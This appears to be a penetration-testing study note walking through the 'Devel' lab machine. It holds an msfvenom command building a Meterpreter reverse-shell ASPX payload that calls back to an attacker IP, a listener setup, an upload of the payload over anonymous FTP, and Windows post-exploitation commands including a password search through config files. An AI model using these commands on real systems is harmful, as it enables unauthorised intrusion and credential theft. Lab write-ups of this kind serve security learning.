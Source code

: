 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`

#### User Enumeration  
check hostname and user logged in`whoami`  
check current priviliges `whoami /priv`  
groups you belong to `whoami /groups`
users on the host `net user`  
enum found users `net user exampleuser`  
list all local group memberships `net localgroup`  
list all users in the administrator group `net localgroup administrators`  

#### Network Enumeration  
`ipconfig`  
`ipconfig /all`  
`arp -a`  
(check where else the host is connecting to) `route print`  
(where is the host connecting to and what ports are open, if new connections / ports are found only internally and not frem an external scan it could provide ideas such as the potential port forward,) `netstat -ano`  

#### Password Hunting  
(finds string of 'password' in the listed file types WITHIN the current directory) `findstr /si password *.txt *.ini *.config *.xml`  

### Automated Tools
